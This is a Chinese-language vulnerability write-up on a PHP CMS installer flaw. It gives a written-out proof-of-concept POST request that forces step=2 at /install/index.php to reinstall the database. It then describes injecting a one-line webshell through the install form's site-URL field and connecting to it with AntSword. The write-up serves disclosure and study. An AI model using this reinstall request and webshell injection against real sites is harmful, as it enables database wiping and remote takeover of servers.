​                                                                  系统重装漏洞

路由地址： /install/index.php  

找到可控变量$step，其中以POST数据提交



继续往下看发现step 为1,2,3,4，分别进入不同的php页面




在step_2.php文件中发现step=2时，可以进入该页面



尝试burp提交数据2,3,4





 

 

 



 

发现step=4时，结果为非法提交，然后从step=2，抓取进入数据按照页面，发现验证token



Poc：

POST /install/index.php HTTP/1.1

Host: zz.cms

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=l68f4rbt3n55lbrle4f531ba35

Connection: close

 

step=2



可以重装数据库



同时，发现填写数据库的信息是部分可控制的



发现如果更改框选部分内容，根据上面是无法连接数据库的，所以只能控制网站链接


在网站访问网址地址这一栏加入一句话木马



 

查看代码，发现一句话木马写入成功



使用蚁剑进行连接，链接成功



 

查看文件


